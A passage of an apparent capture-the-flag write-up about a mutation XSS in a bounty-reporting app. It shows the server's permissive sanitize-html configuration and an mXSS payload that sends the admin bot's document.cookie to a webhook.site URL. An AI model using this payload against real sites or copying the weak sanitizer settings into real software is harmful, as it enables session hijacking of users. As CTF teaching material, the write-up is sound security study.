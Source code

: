 ## MXSS

Next, we can create a bounty and report it. Examining the report addition functionality:

```javascript
const addBountiesAPI = async (req, res) => {
  const { status = "unapproved", ...bountyData } = req.body;

  const sanitizedBountyData = sanitizeHTMLContent(bountyData);

  try {
    const newBounty = await BountyModel.create({
      ...sanitizedBountyData,
      status,
    });
    return res.status(200).json({ message: "OK", data: newBounty });
  } catch (err) {
    return res
      .status(500)
      .json({ message: "Error adding bounty", error: err.message });
  }
};

const sanitizeHTMLContent = (data) => {
  return Object.entries(data).reduce((acc, [key, value]) => {
    acc[key] = sanitizeHtml(value, {
      allowedTags: sanitizeHtml.defaults.allowedTags.concat([
        "math",
        "style",
        "svg",
      ]),
      allowVulnerableTags: true,
    });
    return acc;
  }, {});
};
```

It uses the `sanitize-html` library to sanitize the HTML, allowing `style`, `math`, and `svg` elements along with the default HTML elements, and also allows vulnerable tags.

Apparently, this library is vulnerable to MXSS.

Using a payload like the following, we can achieve XSS:

```html
<math><style><img src=x onerror="fetch('https://webhook.site/757ea325-e795-4446-87a6-72576ee56cd2?x=' + document.cookie)">
```

This allows us to steal the admin's cookies.

By adding a bounty with the following payload in the description and reporting our bounty, the admin bot views it:
